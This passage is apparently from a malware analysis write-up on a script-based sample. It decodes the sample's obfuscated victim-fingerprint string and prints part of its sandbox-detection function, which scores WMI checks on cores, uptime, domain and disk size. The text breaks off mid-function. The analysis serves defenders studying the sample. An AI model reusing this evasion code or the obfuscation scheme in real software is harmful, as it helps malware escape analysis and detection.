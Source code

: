 
On my test host, that came out as:

    
    
    dT][YWdyYW50JmQ9V09SS0dST]VQJmlzQT]U-nVlJm9]d}]GYWxzZSZhdj]N~WNy*$NvZnQgU[VjdXJpdHkgRXNzZW50~WFs-y]E~XNhYmxlZ{smUHJveHk9LT:&
    
    $ echo 'dT][YWdyYW50JmQ9V09SS0dST]VQJmlzQT]U-nVlJm9]d}]GYWxzZSZhdj]N~WNy*$NvZnQgU[VjdXJpdHkgRXNzZW50~WFs-y]E~XNhYmxlZ{smUHJveHk9LT:&' | tr ':~%*{-}][$&' 'AaBbCcD123=' | base64 -D
    u=vagrant&d=WORKGROUP&isA=Tue&out=False&av=Microsoft Security Essential-Disabled+&Proxy=-0~
    

#### SandBox

The `SandBox` function is interesting as well. It starts with a `score`
variable set to 0, performs a series of tests, each one potentially
incrementing `score` by 1 or 2, and then returns true is `score` is greater
than 2.

The tests are:

  * If the computer is part of a domain, and the computer name is the same as the domain name, score += 2
  * If the number of cores < 2, score += 1
  * If the system up time is less than 11 minutes, score += 2
  * If the size of the hard drive is less than 15 GB, score += 2
  * If the amount of filled space on the hard drive (size of the harddrive minus the free space) is less than 15 GB, score += 1

Here’s the sandbox detection code in it’s entirety:

    
    
    Function SandBox()
    
        Dim score, aaaaaa, bbbbbb, cccccc, dddddd, eeeeee, fffffff
        aaaaaa = "winmgmts:\\.\root\cimv2"
        bbbbbb = "SeleCt * from Win32_ComputerSystem"
        cccccc = "WinNTSystemInfo"
        dddddd = "SELeCT * FROM Win32_Processor"
        eeeeee = "SeleCt * From Win32_PerfFormattedData_PerfOS_System"
        fffffff = "Win32_LogicalDisk.DeviceID='c:'"
        score = 0
        Dim objWMISvc
        Set objWMISvc = GetObject(aaaaaa)
        Dim colItemsDisk
        Dim colItems
        Set colItems = objWMISvc.ExecQuery(bbbbbb)
        Dim objSysInfo
        Set objSysInfo = CreateObject(cccccc)
        Dim strComputerName
        Dim stfgds
        stfgds = ", "
        strComputerName = objSysInfo.ComputerName
        For Each objItem In colItems
            strComputerDomain = objItem.Domain
            If objItem.PartOfDomain And strComputerName = strComputerDomain Then
                score = score + 2
            End If
        Next
        Set colItems = objWMISvc.ExecQuery(dddddd)
        For Each objItem In colItems
            If objItem.NumberOfCores < 2 Then
            score = score + 1
            End If
        Next
        Set colOperatingSystems = objWMISvc.ExecQuery(eeeeee)
        For Each objOS In colOperatingSystems
            intSystemUptime = Int(objOS.SystemUpTime)